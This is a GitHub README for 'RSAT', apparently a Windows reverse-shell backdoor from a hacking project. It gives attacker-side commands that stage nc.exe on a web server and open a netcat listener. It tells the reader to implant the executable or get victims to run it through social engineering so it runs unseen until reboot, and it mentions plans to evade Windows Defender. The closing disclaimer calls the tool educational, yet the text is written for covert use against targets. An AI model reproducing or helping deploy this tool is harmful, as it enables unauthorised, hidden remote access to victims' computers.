 # RSAT
**Reverse Shell Attacking Terminal(RSAT)** is an executable application which can be used to remotely access _a target computer_ from the _attackers computer_ using a service named as **netcat**. **RSAT** is currentely only available to **linux based computers and windows based computers.** Essentially, **RSAT has simply automated the netcat service and made it applicable to** _the backdoor of the target system_so that the user does not know. **RSAT** is a part of the LVSH project which is a hacking framwork  under development. The user must read the full README.md before using the program for smooth and appropriate use.

![RCAT](https://github.com/LostOliie/rsat/assets/137381675/5eb160c8-70ac-4e1e-ab7f-2f0871f7be53)





# How does it work?
The attackers computer has to be  _a linux based computer(recommended kali linux)_ the attacking computer shall have netcat installed,

The attacker shall execute **the following commands in their terminal:**

    sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/nc.exe
    sudo systemctl start apache2.service
    nc -nlvp 1234

These commands **start a server and start listening on ** a port named _1234_, the output of these commands should be like so:

      listening on [any] 1234 ...

After doing so, the attacker must simply implant or send the target the **LVSH RSAT** executable into the target computer, then the hacker shall make the target execute it using social engineering **skills or the hacker can execute the .exe file ** when he _implants the file _.

After this the target computer will **not be seeing anything and the ** _program will run infinitly unless the system is restarted or turned off_.

Then the attackers computer will have access to the **target computers shell which the attacker can use to access the device :-)**

**NOTE: THE TARGET COMPUTER HAS TO HAVE WINDOWS DEFENDER DISABLED, THE LVSH PROJECT IS WORKING ON BYPASSING THIS IN THE NEXT VERSION., THE COMMANDS FOR THE ATTACKER ARE LINUX BASED ONLY WHILE THE COMMANDS OF THE TARGET ARE WIN BASED ONLY.*

# Terms & Conditions

Disclaimer: Legal and Responsible Use Statement

The following statement serves as a disclaimer to emphasize the importance of using any program, tool, or software for lawful and ethical purposes only. We strongly discourage and condemn the use of our program for illegal hacking activities or any malicious intent. By using this program, you agree to the terms and conditions outlined below:

Lawful Use: You acknowledge that the program provided is intended solely for legal and ethical purposes. You agree to utilize the program in accordance with local, national, and international laws, regulations, and guidelines.

Prohibited Activities: You agree not to engage in any activities that are illegal, unethical, or harmful to others. This includes, but is not limited to, unauthorized access to computer systems, data breaches, identity theft, malicious attacks, or any actions that compromise the security and privacy of individuals or organizations.

Personal Responsibility: You accept full responsibility for your actions and the consequences that may arise from using the program. You understand that any misuse or illegal activity associated with this program may result in legal penalties, including but not limited to civil and criminal liability.

No Endorsement: The program provider does not endorse or support any illegal or malicious use of the program. We strictly promote ethical conduct, lawful practices, and respect for privacy and security.

Educational and Research Purposes: This program may be used for educational and research purposes to enhance knowledge, improve cybersecurity practices, and promote responsible technology use. However, it should be used solely in controlled environments with appropriate permissions and consents.

Ethical Guidelines: We encourage users to follow established ethical guidelines and respect the rights, privacy, and security of others. Use the program to enhance your understanding, contribute positively to the field, and protect digital ecosystems.

No Warranty: The program is provided "as is" without any warranties, express or implied. The program provider shall not be held responsible for any damages, losses, or liabilities incurred by the user or any third party as a result of using the program.

By using this program, you acknowledge that you have read and understood this disclaimer and agree to abide by its terms and conditions. You further understand that violation of this disclaimer may result in the termination of your access to the program and potential legal consequences.

Remember, technology should be used responsibly, ethically, and legally to ensure a safe and secure digital environment for all. 



    PS: **PROGRAM MADE BY LVSH PROJECT AKA LOSTOLIIE **
